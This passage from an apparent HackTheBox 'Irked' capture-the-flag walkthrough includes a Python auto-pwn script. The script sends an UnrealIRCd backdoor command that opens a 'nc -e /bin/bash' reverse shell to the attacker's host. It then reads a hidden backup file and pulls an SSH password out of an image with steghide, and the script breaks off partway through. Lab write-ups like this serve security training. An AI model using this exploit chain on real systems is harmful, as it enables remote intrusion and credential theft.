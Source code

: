 And we test it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-28-HackTheBox-Irked/2021-12-28-HackTheBox-Irked%2001:54:27.png)

Ok, now we can easily get root on this box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-28-HackTheBox-Irked/2021-12-28-HackTheBox-Irked%2001:56:23.png)

# Auto Pwn Root

Now, let's get everything automated

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-28-HackTheBox-Irked/2021-12-28-HackTheBox-Irked%2012:57:46.png)

auto_reverse_irked.py

```py
#!/usr/bin/python3
# Auto Pwn Root - Irked - HackTheBox
# Author: 0x4rt3mis

import argparse
from pwn import *
from threading import Thread
import os
import subprocess
from subprocess import check_output

'''Here come the Functions'''
# Set the handler to get the pwd steg
def HandlerIRCDUser(lport,rhost):
    shell = listen(lport).wait_for_connection()
    shell.send(b'cat /home/djmardov/Documents/.backup \n')
    global pwd_steg
    pwd_steg = shell.recv().decode().strip().split("\n")[-1]
    print("[+] The pwd for the jpg file is: %s [+]" %pwd_steg)
    # Download the image and extract the ssh pass
    GetSSHPass(rhost,pwd_steg)

# Trigger the First Reverse (ircd user)
def TriggerReverse(rhost,lport,lhost):
    content = 'AB; nc -e /bin/bash %s %s' %(lhost,lport)
    r = remote(rhost, 8067)
    r.send(b'%s' %content.encode())
    
# Function to get the ssh pas
def GetSSHPass(rhost,pwd_steg):
    print("[+] Let's get the ssh pass !! [+]")
    url = 'http://%s/irked.jpg' %rhost
    os.system("wget -q %s" %url)
    os.system("steghide extract -q -sf irked.jpg -p %s >/dev/null" %pwd_steg)
    global ssh_pass
    ssh_pass = check_output(["cat", "pass.txt"]).decode('utf-8').strip()
    print("[+] The SSH Password for the user djmardov is: %s [+] !!!" %ssh_pass)
    os.system("rm pass.txt")
    os.system("rm irked.jpg")
    
def LoginSSHandRoot(rhost,ssh_pass,lhost,lport):
    print("[+] Now, let's ssh in !!!! [+]")
    lport = int(lport) + 1
    # Set up the handler for root in a new thread
    thr = Thread(target=RootHandler,args=(int(lport),))
```